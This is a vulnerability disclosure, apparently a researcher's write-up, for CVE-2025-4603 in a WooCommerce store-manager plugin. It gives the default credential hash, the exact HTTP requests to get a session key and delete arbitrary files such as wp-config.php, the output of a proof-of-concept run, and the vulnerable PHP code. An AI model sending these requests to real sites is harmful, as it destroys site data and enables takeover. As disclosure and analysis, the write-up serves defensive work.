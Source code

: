 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Delete'
date = 2025-05-23T05:20:12+00:00
hideToc = true
+++
### CVE-2025-4603

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and delete arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4603.py](https://github.com/d0n601/CVE-2025-4603/blob/master/CVE-2025-4603.py) is provided to demonstrate an attacker deleting `wp-config.php`.

```
python3 CVE-2025-4603.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Attempting to delete file...
[*] Delete response: {"response_code":"20","message":"File was deleted from FTP Server successfully"}
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Deletion
With a valid session key, an attacker can upload a file using the `delete_file` task:



```http
POST /?connector=bridge&task=delete_file&key=<session_key>&path=wp-content.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2167+):

```php
	/** Delete file */
	private function delete_file() {
		if ( ! $this->shop_cart->isset_request_param( 'path' ) ) {
			$this->generate_error( $this->br_errors['path_param_missing'] );
		}

		$filepath = (string) $this->shop_cart->get_request_param( 'path' );

		if ( empty( $filepath ) ) {
			$this->generate_error( $this->br_errors['path_param_empty'] );
		}

		$filepath = $this->shop_cart->get_shop_root_dir() . '/' . $filepath;

		if ( ! $this->shop_cart->file_exists( $filepath ) ) {
			$this->generate_error( $this->br_errors['delete_file_error'] );
		}

		$this->shop_cart->delete_file( $filepath );
	}
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
public function delete_file($filepath) {
    if (!file_exists($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::ERROR_CODE_COMMON,
            self::KEY_MESSAGE => 'File is missing on server',
        )));
    }

    if (unlink($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::SUCCESSFUL,
            self::KEY_MESSAGE => 'File was deleted from FTP Server successfully',
        )));
    }
}
```
**Result:** The file is deleted from the server.

